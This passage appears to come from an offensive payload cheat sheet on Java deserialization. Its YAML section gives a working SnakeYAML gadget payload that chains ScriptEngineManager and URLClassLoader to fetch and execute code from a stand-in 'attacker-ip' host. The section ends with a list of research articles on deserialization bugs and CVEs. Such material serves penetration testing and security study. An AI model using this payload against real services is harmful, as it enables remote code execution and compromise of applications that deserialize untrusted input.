 

## YAML Deserialization

SnakeYAML

```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://attacker-ip/"]
  ]]
]
```



## References

- [Detecting deserialization bugs with DNS exfiltration - Philippe Arteau - March 22, 2017](https://www.gosecure.net/blog/2017/03/22/detecting-deserialization-bugs-with-dns-exfiltration/)
- [How I found a $1500 worth Deserialization vulnerability - Ashish Kunwar - August 28, 2018](https://medium.com/@D0rkerDevil/how-i-found-a-1500-worth-deserialization-vulnerability-9ce753416e0a)
- [Jackson CVE-2019-12384: anatomy of a vulnerability class - Andrea Brancaleoni - July 22, 2019](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html)
- [Java-Deserialization-Cheat-Sheet - Aleksei Tiurin - May 23, 2023](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet/blob/master/README.md)
- [Misconfigured JSF ViewStates can lead to severe RCE vulnerabilities - Peter Stöckli - August 14, 2017](https://www.alphabot.com/security/blog/2017/java/Misconfigured-JSF-ViewStates-can-lead-to-severe-RCE-vulnerabilities.html)
- [On Jackson CVEs: Don’t Panic — Here is what you need to know - cowtowncoder - December 22, 2017](https://medium.com/@cowtowncoder/on-jackson-cves-dont-panic-here-is-what-you-need-to-know-54cd0d6e8062#da96)
- [Pre-auth RCE in ForgeRock OpenAM (CVE-2021-35464) - Michael Stepankin (@artsploit) - June 29, 2021](https://portswigger.net/research/pre-auth-rce-in-forgerock-openam-cve-2021-35464)
- [Triggering a DNS lookup using Java Deserialization - paranoidsoftware.com - July 5, 2020](https://blog.paranoidsoftware.com/triggering-a-dns-lookup-using-java-deserialization/)
- [Understanding & practicing java deserialization exploits - Diablohorn - September 9, 2017](https://diablohorn.com/2017/09/09/understanding-practicing-java-deserialization-exploits/)